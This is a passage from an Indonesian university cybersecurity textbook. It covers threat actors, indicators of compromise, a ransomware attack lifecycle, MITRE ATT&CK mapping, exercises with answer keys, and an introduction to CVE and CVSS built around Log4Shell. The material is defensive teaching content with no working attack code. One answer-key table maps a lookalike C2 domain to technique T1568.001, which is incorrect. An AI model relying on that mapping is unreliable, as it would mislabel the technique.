

**Konsep Indikator Kompromi (IoC):**
IoC adalah artefak forensik yang mengindikasikan kemungkinan intrusi. IoC bersifat reaktif — mengidentifikasi kompromi yang *sudah terjadi*. Jenis IoC meliputi:
- **File hash** (MD5, SHA-256): Identifikasi file malware spesifik
- **IP address**: Alamat server C2 atau scanning yang dikenal berbahaya
- **Domain name**: Domain yang digunakan untuk phishing atau C2
- **URL**: URL spesifik yang berbahaya
- **Network signature**: Pola traffic jaringan yang mengindikasikan komunikasi C2
- **Registry key**: Kunci registry yang ditambahkan malware untuk persistensi
- **Mutex**: Identifier unik yang digunakan malware untuk mencegah duplikasi diri

💡 **Insight Profesional:** IoC memiliki "waktu kadaluarsa" — penyerang dapat dengan mudah mengubah IP, domain, atau hash file. Intelijen berbasis TTP (Tactics, Techniques, Procedures) jauh lebih tahan lama karena TTP mencerminkan cara berpikir dan beroperasi penyerang, yang jauh lebih sulit diubah daripada infrastruktur teknis.

---

## 5. Model atau Arsitektur

### 5.1 Threat Actor Capability-Motivation Matrix



### 5.2 Lifecycle Ransomware Attack

```mermaid
flowchart LR
    A["Initial Access\n(Phishing, RDP,\nVulnerability Exploit)"] --> B["Execution\n(Payload dropper\ntereksekusi)"]
    B --> C["Persistence\n(Registry, Scheduled Task,\nService)"]
    C --> D["Privilege Escalation\n(Local Exploit,\nToken Impersonation)"]
    D --> E["Defense Evasion\n(AV Disable,\nLog Clearing)"]
    E --> F["Credential Access\n(LSASS Dump,\nKeylogging)"]
    F --> G["Discovery\n(Network Scan,\nAD Enumeration)"]
    G --> H["Lateral Movement\n(PsExec, WMI,\nPass-the-Hash)"]
    H --> I["Exfiltration\n(Data ke C2\nuntuk double extortion)"]
    I --> J["Impact\n(Ransomware Deploy,\nFile Encryption)"]
    J --> K["Extortion\n(Ransom Note,\nTimeline Pembayaran)"]
    
    style A fill:#d32f2f,color:#fff
    style J fill:#b71c1c,color:#fff
    style K fill:#880e4f,color:#fff
```

---

## 6. Contoh Terapan

### Studi Kasus: Analisis Ancaman untuk Perusahaan Manufaktur Strategis

**Konteks:**
Sebuah perusahaan manufaktur pertahanan Indonesia dengan 3.000 karyawan sedang menyusun profil ancaman (*threat profile*) untuk keperluan perencanaan keamanan tahunan. Tim keamanan diminta untuk mengidentifikasi ancaman yang paling relevan dan TTP yang kemungkinan akan digunakan.

**Proses Analisis Threat Intelligence:**

*Langkah 1: Identifikasi Aset Kritis dan Nilai Strategisnya*
- Rancangan teknis sistem persenjataan (nilai: sangat tinggi untuk negara-negara kompetitor)
- Database personel (nilai: target sabotase atau rekrutmen)
- Sistem SCADA/OT yang mengendalikan lini produksi (nilai: target sabotase)
- Catatan kontrak pemerintah (nilai: intelijen ekonomi)

*Langkah 2: Profiling Aktor Ancaman yang Relevan*

| Aktor | Relevansi | Kemungkinan TTP |
|---|---|---|
| APT dari negara kompetitor | Tinggi — perusahaan pertahanan adalah target utama espionase militer | Spear phishing bertarget eksekutif, watering hole via forum industri pertahanan, supply chain compromise |
| Hacktivist | Sedang — perusahaan pertahanan dapat menjadi target ideologis | DDoS, defacement, doxxing karyawan |
| Insider Threat | Tinggi — akses ke IP sensitif dan kontrak pemerintah | Data exfiltration melalui email atau USB |
| Cybercriminal (Ransomware) | Sedang — perusahaan manufaktur dengan OT adalah target menarik | Phishing, RDP brute force, RaaS attack |

*Langkah 3: Pemetaan TTP ke MITRE ATT&CK*
Berdasarkan profil APT yang menargetkan sektor pertahanan (seperti APT41 dan APT10), TTP yang paling mungkin digunakan:
- **Initial Access (TA0001)**: T1566.001 Spear phishing attachment, T1190 Exploit Public-Facing Application
- **Execution (TA0002)**: T1059 Command and Script Interpreter, T1204 User Execution
- **Persistence (TA0003)**: T1053 Scheduled Task/Job, T1078 Valid Accounts
- **Discovery (TA0007)**: T1083 File and Directory Discovery, T1057 Process Discovery
- **Exfiltration (TA0010)**: T1041 Exfiltration Over C2 Channel, T1048 Exfiltration Over Alternative Protocol

*Langkah 4: Rekomendasi Kontrol Berbasis TTP*

| TTP | Kontrol Mitigasi |
|---|---|
| Spear Phishing | Anti-phishing training, email authentication (SPF/DKIM/DMARC), sandboxing email attachments |
| Valid Account Abuse | MFA untuk semua akun, PAM, user behavior analytics |
| Lateral Movement | Network micro-segmentation, SMB signing enforcement, monitoring untuk PsExec/WMI abuse |
| Data Exfiltration | DLP, egress filtering, UEBA untuk alert pada transfer data besar |

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 3.1: Analisis Threat Report dan Profiling Ancaman

**Tujuan Praktikum:**
Melatih kemampuan membaca, mengkritisi, dan mengekstrak intelijen yang dapat ditindaklanjuti dari laporan ancaman publik.

**Prasyarat:**
- Selesaikan Bab 1-3
- Akses internet untuk mengunduh laporan

**Lingkungan Lab:**
Berbasis dokumen, tidak memerlukan lab khusus.

**Dataset:**
Download salah satu laporan berikut (tersedia gratis):
- Mandiant M-Trends Report (terbaru)
- CrowdStrike Global Threat Report (terbaru)
- Verizon DBIR (terbaru)
- ENISA Threat Landscape (terbaru)

**Langkah Kerja:**

1. **Unduh dan baca** laporan yang ditugaskan (fokus pada bagian relevan, bukan keseluruhan dokumen).

2. **Ekstrak lima temuan kunci** yang paling relevan untuk konteks organisasi Indonesia. Untuk setiap temuan, catat:
   - Apa temuannya?
   - Aktor atau teknik apa yang terlibat?
   - Seberapa relevan untuk organisasi lokal?
   - Apa implikasi untuk strategi pertahanan?

3. **Identifikasi dan profile satu kelompok ancaman** yang dibahas dalam laporan:
   - Nama/alias kelompok
   - Atribusi (negara, afiliasi)
   - Motivasi
   - Target industri
   - TTP yang sering digunakan
   - Infrastruktur teknis (jika tersedia)

4. **Evaluasi kualitas laporan**:
   - Apakah klaim didukung bukti yang memadai?
   - Apakah ada bias (laporan vendor sering mempromosikan produk mereka)?
   - Seberapa actionable rekomendasi yang diberikan?

5. **Presentasikan ringkasan** dalam format executive brief (1 halaman) yang bisa dibaca oleh CISO atau manajemen non-teknis.

**Bukti yang Harus Dikumpulkan:**
- Ringkasan 5 temuan kunci (format terstruktur)
- Profil kelompok ancaman
- Evaluasi kritis kualitas laporan
- Executive brief (1 halaman)

**Kriteria Keberhasilan:**
- Ekstraksi temuan yang tepat dan relevan (bukan sekadar copy-paste)
- Profil ancaman yang akurat dan terstruktur
- Evaluasi kritis yang menunjukkan pemahaman tentang bias sumber
- Executive brief yang dapat dipahami oleh non-teknis

⚠️ **Catatan Etika:**
Laporan threat intelligence digunakan untuk pertahanan. IoC yang ditemukan dalam laporan (IP, domain, hash) TIDAK boleh digunakan untuk tujuan apa pun selain untuk memperbarui signature deteksi defensif atau melakukan threat hunting di lingkungan sendiri yang diotorisasi.

---

## 8. Latihan Pemahaman

**Soal 1 (Pilihan Ganda)**

Kelompok ransomware yang mengenkripsi data korban DAN mengancam akan mempublikasikan data yang dicuri jika tebusan tidak dibayar menggunakan strategi yang disebut:

A. Triple Extortion  
B. Double Extortion  
C. Advanced Persistent Threat  
D. Supply Chain Attack  

---

**Soal 2 (Pilihan Ganda)**

Penyerang mengirimkan email yang tampak berasal dari CEO kepada CFO, meminta transfer dana segera ke rekening baru. Teknik ini disebut:

A. Phishing  
B. Smishing  
C. Whaling  
D. Pretexting  

---

**Soal 3 (Esai Singkat)**

Jelaskan perbedaan antara threat intelligence pada level *strategic*, *tactical*, *operational*, dan *technical*. Berikan satu contoh spesifik untuk setiap level. (200-250 kata)

---

**Soal 4 (Analisis Kasus)**

Sebuah bank melaporkan bahwa selama tiga bulan terakhir, tiga karyawannya telah menjadi korban spear phishing yang sama — email palsu yang tampak dari HRD meminta "verifikasi data rekening payroll". Penyerang berhasil mendapatkan username dan password VPN dari ketiga karyawan tersebut.

a) Klasifikasikan aktor ancaman yang paling mungkin bertanggung jawab (beserta justifikasi).  
b) Identifikasi TTP yang digunakan dalam serangan ini.  
c) Rekomendasikan tiga kontrol teknis dan satu kontrol prosedural untuk mencegah serangan serupa.

---

**Soal 5 (Perbandingan Konsep)**

Bandingkan insider threat yang disengaja (*malicious insider*) dengan insider threat yang tidak disengaja (*negligent insider*) dalam hal: motivasi, deteksi, dampak potensial, dan kontrol yang paling efektif. Sajikan dalam format tabel.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus 1: Analisis Kampanye APT terhadap Sektor Kesehatan

Selama pandemi, sebuah kelompok APT yang diduga disponsori oleh pemerintah negara tertentu secara aktif menargetkan institusi penelitian vaksin di berbagai negara. Serangan yang berhasil dikompromikan dianalisis oleh tim respons insiden nasional.

**Temuan Investigasi:**
- Initial access melalui spear phishing dengan dokumen Word berisi malicious macro yang menyamar sebagai "protokol penelitian COVID-19"
- Setelah eksekusi payload, penyerang menggunakan PowerShell untuk mengunduh tahap kedua dari server C2 yang menggunakan domain mirip institusi akademis terkemuka
- Persistensi dicapai melalui scheduled task dan registry run key
- Lateral movement menggunakan WMI dan PsExec setelah credential dump dari LSASS
- Exfiltration data riset menggunakan HTTPS ke server C2 di cloud provider mainstream (untuk menghindari deteksi)
- Total durasi sebelum terdeteksi: 4 bulan

**Pertanyaan:**

1. **Analisis TTP (C4)**: Petakan setiap teknik yang disebutkan ke taktik MITRE ATT&CK yang sesuai. Gunakan format: Taktik (TA00XX) → Teknik (TXXXX) → Deskripsi Teknik.

2. **Evaluasi Pertahanan (C5)**: Berdasarkan durasi 4 bulan sebelum terdeteksi, evaluasi kelemahan program keamanan institusi tersebut. Rekomendasikan tiga kontrol yang, jika diterapkan, dapat memperpendek waktu deteksi secara signifikan.

### Studi Kasus 2: Profiling Ancaman untuk Perusahaan Startup Fintech

Sebuah startup fintech yang baru mendapatkan izin dari OJK akan meluncurkan aplikasi pinjaman P2P dalam 3 bulan. CISO yang baru bergabung diminta menyusun threat profile dalam waktu 2 minggu.

**Informasi Perusahaan:**
- 50 karyawan, 20 di antaranya adalah developer
- Infrastruktur di AWS (multi-region)
- Data nasabah: KTP, foto selfie, slip gaji, histori transaksi perbankan
- Tim keamanan: CISO + 1 analis keamanan
- Anggaran keamanan: terbatas

**Pertanyaan:**

1. **Identifikasi dan Prioritas Ancaman (C4)**: Identifikasi empat aktor ancaman yang paling relevan untuk startup fintech ini. Untuk setiap aktor, jelaskan mengapa mereka relevan, TTP yang kemungkinan digunakan, dan aset yang menjadi target.

2. **Strategi Mitigasi Berbasis Prioritas (C5)**: Dengan anggaran terbatas dan tim kecil, rekomendasikan investasi keamanan dengan ROI tertinggi. Gunakan pendekatan prioritas berbasis risiko: mana yang harus dilakukan segera, mana yang dapat ditunda, dan mana yang dapat dimitigasi dengan cara lain (asuransi, cloud security defaults, dsb.).

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1 — Kunci Jawaban: **B. Double Extortion**

**Jawaban Akhir:** B

**Penjelasan Teoritis:**
Double Extortion adalah evolusi dari model ransomware tradisional yang hanya mengenkripsi data. Dengan Double Extortion, penyerang melakukan dua ancaman: (1) meminta tebusan untuk kunci dekripsi agar data dapat diakses kembali, dan (2) mengancam akan mempublikasikan atau menjual data yang telah dicuri sebelum enkripsi. Model ini pertama kali dipopulerkan oleh kelompok Maze sekitar 2019 dan kini menjadi standar industri ransomware.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Triple Extortion**: Menambahkan ancaman ketiga — biasanya DDoS atau menghubungi pelanggan korban secara langsung.
- **(C) APT**: APT adalah klasifikasi aktor ancaman (nation-state), bukan teknik ransomware.
- **(D) Supply Chain Attack**: Vektor serangan yang menargetkan vendor/supplier, tidak secara langsung terkait dengan strategi extortion.

---

### Soal 2 — Kunci Jawaban: **C. Whaling**

**Jawaban Akhir:** C

**Penjelasan Teoritis:**
Whaling adalah bentuk spear phishing yang secara spesifik menargetkan eksekutif senior — C-suite (*Chief-level* executives) atau individu dengan otoritas keputusan finansial atau strategis. Nama "whaling" (memancing ikan paus) mengacu pada pentingnya target yang dituju. CEO email fraud, atau Business Email Compromise (BEC), adalah salah satu bentuk whaling yang paling sering terjadi dan merugikan secara finansial.

**Mengapa Jawaban Lain Kurang Tepat:**
- **(A) Phishing**: Serangan massal dan tidak dipersonalisasi — dikirim ke ribuan penerima tanpa kustomisasi.
- **(B) Smishing**: Social engineering melalui SMS, bukan email.
- **(D) Pretexting**: Menciptakan skenario palsu untuk mendapatkan informasi — bisa melalui berbagai saluran, bukan hanya email.

---

### Soal 3 — Panduan Jawaban

**Strategic Intelligence:** Memberikan gambaran jangka panjang tentang lanskap ancaman dan tren geopolitik yang mempengaruhi keamanan organisasi. Konsumen utamanya adalah eksekutif dan CISO. *Contoh*: "Laporan tahunan menyimpulkan bahwa aktor APT yang disponsori negara X semakin menargetkan sektor energi di Asia Tenggara sebagai respons terhadap kebijakan energi baru."

**Operational Intelligence:** Memberikan informasi tentang kampanye serangan yang sedang aktif. Membantu tim keamanan mempersiapkan diri untuk ancaman yang sedang berlangsung. *Contoh*: "Terdapat kampanye phishing aktif minggu ini yang menargetkan bank Indonesia menggunakan domain palsu yang menyerupai BI."

**Tactical Intelligence:** Mendeskripsikan TTP yang digunakan oleh kelompok ancaman tertentu. Membantu tim keamanan memahami *bagaimana* penyerang beroperasi. *Contoh*: "Kelompok APT34 menggunakan teknik PowerShell-based droppers dengan encoded command untuk menghindari deteksi antivirus signature-based."

**Technical Intelligence:** Indikator teknis yang dapat langsung dimasukkan ke dalam alat deteksi. *Contoh*: Hash SHA-256 `a3f8...bc12` yang terkait dengan varian malware Emotet, atau IP `185.234.XX.XX` yang diidentifikasi sebagai server C2 aktif.

---

### Soal 4 — Panduan Jawaban

**a) Klasifikasi Aktor:**
Paling mungkin adalah **Cybercriminal** (bukan APT), karena:
- Target: Kredensial VPN — digunakan untuk akses ke jaringan perbankan, kemungkinan untuk fraud finansial atau akses awal yang akan dijual
- Pola: Spear phishing bertarget HR (teknik yang sangat umum dalam BEC dan credential theft oleh cybercriminal)
- Tidak ada indikasi teknik APT yang canggih (tidak ada zero-day, tidak ada persistensi jangka panjang yang disebut)

Namun, Initial Access Broker juga mungkin — menjual akses VPN ke pembeli lain.

**b) TTP yang Digunakan:**
- **T1566.002 (Spear Phishing Link)**: Email bertarget yang mengarah ke halaman phishing
- **T1078 (Valid Accounts)**: Penggunaan kredensial sah yang dicuri
- **T1133 (External Remote Services)**: Akses ke VPN menggunakan kredensial curian

**c) Kontrol Rekomendasi:**

*Teknis:*
1. MFA wajib untuk VPN — password saja tidak cukup
2. Email gateway dengan sandboxing dan link rewriting untuk inspeksi URL
3. User Behavior Analytics (UBA) untuk mendeteksi login anomali (waktu, lokasi, perangkat)

*Prosedural:*
1. Prosedur verifikasi out-of-band untuk permintaan sensitif dari HR — tidak hanya melalui email, tetapi juga konfirmasi telepon atau langsung

---

### Soal 5 — Tabel Perbandingan

| Aspek | Malicious Insider | Negligent Insider |
|---|---|---|
| **Motivasi** | Keuangan, dendam, ideologi, pemaksaan | Ketidaktahuan, kelalaian, kenyamanan |
| **Deteksi** | Sangat sulit — aktivitas dapat tampak normal | Lebih mudah terdeteksi — anomali tidak sengaja (misalnya data keluar ke akun pribadi) |
| **Dampak Potensial** | Sangat tinggi — pencurian IP, sabotase yang disengaja | Menengah-Tinggi — data breach tidak disengaja, infeksi malware |
| **Kontrol Efektif** | UBA/UEBA, PAM, background check, offboarding protokol ketat, zero trust | Security awareness training, DLP, spam filter, phishing simulation, mobile device management |

---

### Studi Kasus 1 — Panduan Jawaban

**Pertanyaan 1 — Pemetaan TTP ke MITRE ATT&CK:**

| Teknik yang Digunakan | Taktik ATT&CK | Kode Teknik | Deskripsi |
|---|---|---|---|
| Spear phishing + malicious macro | Initial Access | T1566.001 | Phishing dengan attachment |
| PowerShell download tahap 2 | Execution | T1059.001 | Command and Script Interpreter: PowerShell |
| Domain mirip institusi akademis | Command & Control | T1568.001 | Domain Generation/C2 via lookalike domain |
| Scheduled task + registry run key | Persistence | T1053.005 + T1547.001 | Scheduled task dan registry run key |
| WMI + PsExec untuk lateral movement | Lateral Movement | T1047 + T1569.002 | WMI + Service Execution (PsExec) |
| Credential dump dari LSASS | Credential Access | T1003.001 | OS Credential Dumping: LSASS Memory |
| HTTPS ke cloud provider | Exfiltration | T1048.002 | Exfiltration Over Alternative Protocol (HTTPS) |

**Pertanyaan 2 — Kontrol untuk Memperpendek Waktu Deteksi:**

1. **EDR (Endpoint Detection and Response)** dengan deteksi perilaku — khususnya untuk mendeteksi credential dumping dari LSASS, penggunaan PsExec/WMI untuk lateral movement, dan PowerShell dengan encoded commands

2. **SIEM dengan Use Case Hunting** yang dikonfigurasi untuk: login dari geolokasi baru, volume akses file penelitian yang tidak normal, traffic HTTPS ke provider cloud yang tidak umum, eksekusi scheduled task baru, dan modifikasi registry run key

3. **Network Traffic Analysis (NTA)** untuk mendeteksi komunikasi ke domain C2 — bahkan jika menggunakan HTTPS, anomali dalam pola DNS query (frekuensi, TTL rendah, NXDOMAIN responses) dapat mengindikasikan DGA atau C2

---

## 11. Ringkasan Bab

Bab 3 membangun pemahaman komprehensif tentang *threat landscape* — siapa yang menyerang, mengapa, dan bagaimana. Pemahaman tentang motivasi aktor ancaman bukan sekadar akademis — ini secara langsung menentukan ancaman mana yang paling relevan untuk sebuah organisasi tertentu dan kontrol mana yang paling efektif.

Klasifikasi aktor ancaman (nation-state APT, cybercriminal, hacktivist, insider threat, script kiddies) menyoroti bahwa tidak semua organisasi menghadapi ancaman yang sama. Perusahaan fintech menghadapi ancaman dominan dari cybercriminal, sementara institusi penelitian pertahanan lebih terancam oleh APT.

Analisis jenis serangan — mulai dari malware tradisional hingga ransomware modern dengan model double extortion, social engineering, dan serangan supply chain — menunjukkan bahwa teknik serangan terus berevolusi. Pertahanan yang efektif membutuhkan pemahaman yang up-to-date tentang teknik terkini, bukan hanya teknik yang sudah usang.

Threat intelligence mengubah data ancaman mentah menjadi wawasan yang dapat ditindaklanjuti. Empat level intelijen (strategic, operational, tactical, technical) melayani konsumen yang berbeda dengan kebutuhan yang berbeda. TTP-based intelligence jauh lebih tahan lama dan berguna daripada IoC-based intelligence karena TTP mencerminkan cara berpikir penyerang yang tidak mudah diubah.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:**
Threat intelligence commercial (dari vendor seperti CrowdStrike atau Mandiant) seringkali sangat mahal. Bagaimana Anda membantu organisasi dengan anggaran terbatas (seperti UKM atau instansi pemerintah daerah) untuk mendapatkan manfaat dari threat intelligence tanpa bergantung pada solusi komersial yang mahal? Sumber mana yang tersedia gratis dan cukup berkualitas?

**Pertanyaan Refleksi 2:**
Setelah mengetahui TTP dari sebuah kelompok APT, apakah etis untuk menggunakan teknik yang sama (*counter-hacking* atau *hack back*) terhadap infrastruktur mereka untuk menghentikan serangan? Pertimbangkan: aspek hukum internasional, risiko kesalahan atribusi, eskalasi konflik, dan alternatif yang lebih aman secara hukum.

**Pertanyaan Refleksi 3:**
Laporan threat intelligence dari vendor komersial sering kali menonjolkan ancaman yang dapat dimitigasi oleh produk mereka sendiri. Sebagai analis keamanan yang membaca laporan ini untuk membuat keputusan investasi, bagaimana Anda mengidentifikasi dan mengkompensasi bias ini? Apa standar minimum yang harus dipenuhi sebuah laporan threat intelligence agar dapat dipercaya sebagai basis keputusan?

---


---

# BAB 4 — ANALISIS KERENTANAN: CVE, CVSS, CWE, DAN NVD

**Pertemuan:** 4  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.2  
**Evaluasi:** Eval-2 (Analisis 3 CVE, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 4, mahasiswa mampu:

- Menjelaskan sistem CVE (*Common Vulnerabilities and Exposures*) dan perannya dalam ekosistem keamanan siber global.
- Membaca dan menginterpretasikan skor CVSS v3.1 dan v4.0 secara akurat, termasuk setiap metrik yang berkontribusi.
- Menggunakan CWE (*Common Weakness Enumeration*) untuk mengklasifikasikan jenis kelemahan yang mendasari kerentanan.
- Menavigasi dan mengekstrak informasi dari NVD (*National Vulnerability Database*).
- Membedakan kerentanan zero-day dari kerentanan N-day dan implikasinya terhadap manajemen risiko.
- Melakukan analisis kerentanan dasar menggunakan CVE/CVSS/CWE/NVD untuk memprioritaskan respons patch.

*Kaitan OBE: Sub-CPMK.2 → CPMK.2 → IK-5.a → CPL5 → Eval-2*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Pada tanggal 9 Desember 2021 pukul 23:00 UTC, seorang peneliti dari tim keamanan Alibaba Cloud melaporkan kerentanan kritis kepada Apache Foundation. Kerentanan ini — yang kemudian diberi nomor CVE-2021-44228 — ada di Log4j, pustaka logging yang digunakan oleh jutaan sistem di seluruh dunia. Dalam waktu 12 jam, proof-of-concept (PoC) eksploit sudah beredar di internet. Dalam 24 jam, scanner otomatis sudah mengeksploitasinya secara massal.

Manajemen kerentanan adalah salah satu fungsi paling mendasar dalam keamanan siber — dan salah satu yang paling sering dilaksanakan dengan buruk. Menurut laporan Edgescan State of the Vulnerability Intelligence Report, rata-rata waktu untuk memperbarui (*patch*) kerentanan kritis di organisasi adalah **60 hari** untuk network layer. Namun, eksploitasi kerentanan sering dimulai dalam hitungan hari atau bahkan jam setelah pengungkapan publik.

Kesenjangan antara kecepatan eksploitasi dan kecepatan patching ini adalah salah satu masalah paling kritis dalam keamanan siber modern. Memahami ekosistem CVE/CVSS/CWE/NVD adalah prasyarat untuk mengatasi kesenjangan ini melalui prioritisasi kerentanan yang berbasis risiko — bukan sekadar patch semua kerentanan dalam urutan ditemukannya.

---

## 4. Landasan Teori

### 4.1 CVE: Common Vulnerabilities and Exposures

> **Definisi:** CVE (*Common Vulnerabilities and Exposures*) adalah kamus standar publik dari kerentanan dan eksposur keamanan siber yang dikenal. Setiap kerentanan yang terdaftar diberi nomor identifikasi unik dalam format `CVE-[TAHUN]-[NOMOR]`.

**Sejarah dan Tujuan:**
CVE diluncurkan oleh MITRE Corporation pada 1999 dengan tujuan menciptakan bahasa yang konsisten untuk berbicara tentang kerentanan keamanan. Sebelum CVE, vendor keamanan yang berbeda menggunakan nama dan sistem penomoran yang berbeda untuk merujuk pada kerentanan yang sama, membuat komunikasi dan koordinasi respons menjadi sangat sulit.

**Struktur Entri CVE:**
Setiap entri CVE berisi:
- **CVE ID**: Nomor identifikasi unik (contoh: `CVE-2021-44228`)
- **Deskripsi**: Penjelasan kerentanan dalam bahasa yang dapat dipahami (namun sering teknis)
- **Status**: Reserved, Awaiting Analysis, Undergoing Analysis, Modified, Analyzed, Rejected
- **References**: Tautan ke advisory, patch, dan analisis tambahan

**CVE Numbering Authorities (CNA):**
CNA adalah organisasi yang berwenang untuk menetapkan nomor CVE dalam domain produk mereka. CNA meliputi:
- Vendor perangkat lunak besar (Microsoft, Google, Adobe, Apple)
- Vendor keamanan (CERT/CC, Rapid7, Qualys)
- Platform bug bounty (HackerOne, Bugcrowd)
- Koordinator nasional (CISA untuk AS, BSI untuk Jerman)

MITRE Corporation adalah Root CNA yang menangani kerentanan yang tidak masuk dalam domain CNA lain.

**Batasan CVE:**
- CVE tidak menilai keparahan — hanya mengidentifikasi
- Tidak semua kerentanan yang diketahui memiliki CVE (terutama kerentanan in-house atau yang tidak dilaporkan)
- Deskripsi CVE kadang sangat terbatas informasinya saat pertama kali diterbitkan
- CVE tidak menyertakan informasi tentang apakah kerentanan aktif dieksploitasi

### 4.2 CVSS: Common Vulnerability Scoring System

> **Definisi:** CVSS adalah framework terbuka dan lintas-industri untuk menilai dan mengkomunikasikan karakteristik serta keparahan kerentanan perangkat lunak.

CVSS memberikan cara standar untuk mengekspresikan keparahan kerentanan, memungkinkan organisasi di seluruh dunia untuk berkomunikasi menggunakan bahasa yang sama. Versi terbaru yang banyak digunakan adalah **CVSS v3.1**, dengan **CVSS v4.0** yang dirilis pada Oktober 2023.

#### 4.2.1 CVSS v3.1 — Metrik dan Skor

CVSS v3.1 memiliki tiga kelompok metrik:

**1. Base Metrics (Skor Dasar)**
Mencerminkan karakteristik intrinsik kerentanan yang tidak berubah dengan waktu atau lingkungan.

| Metrik | Kode | Nilai yang Mungkin | Deskripsi |
|---|---|---|---|
| **Attack Vector** | AV | Network (N), Adjacent (A), Local (L), Physical (P) | Di mana penyerang harus berada untuk mengeksploitasi |
| **Attack Complexity** | AC | Low (L), High (H) | Seberapa sulit kondisi yang diperlukan untuk eksploitasi |
| **Privileges Required** | PR | None (N), Low (L), High (H) | Level privilege yang dibutuhkan penyerang |
| **User Interaction** | UI | None (N), Required (R) | Apakah perlu interaksi dari pengguna lain |
| **Scope** | S | Unchanged (U), Changed (C) | Apakah dampak melampaui komponen yang rentan |
| **Confidentiality Impact** | C | None (N), Low (L), High (H) | Dampak pada kerahasiaan |
| **Integrity Impact** | I | None (N), Low (L), High (H) | Dampak pada integritas |
| **Availability Impact** | A | None (N), Low (L), High (H) | Dampak pada ketersediaan |

**Contoh Vector String CVSS v3.1:**
Log4Shell (CVE-2021-44228): `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

Interpretasi:
- `AV:N` — Dapat dieksploitasi melalui jaringan (Network)
- `AC:L` — Kompleksitas rendah (Low) — mudah dieksploitasi
- `PR:N` — Tidak memerlukan privilege (None)
- `UI:N` — Tidak memerlukan interaksi pengguna (None)
- `S:C` — Scope Changed — dampak melampaui komponen yang rentan
- `C:H/I:H/A:H` — Dampak tinggi pada semua aspek CIA

Skor Base: **10.0 (Critical)**

**Rating Skor CVSS:**

| Skor | Rating | Tindakan yang Direkomendasikan |
|---|---|---|
| 0.0 | None | Tidak diprioritaskan |
| 0.1 – 3.9 | Low | Patch dalam siklus normal |
| 4.0 – 6.9 | Medium | Patch dalam 30 hari |
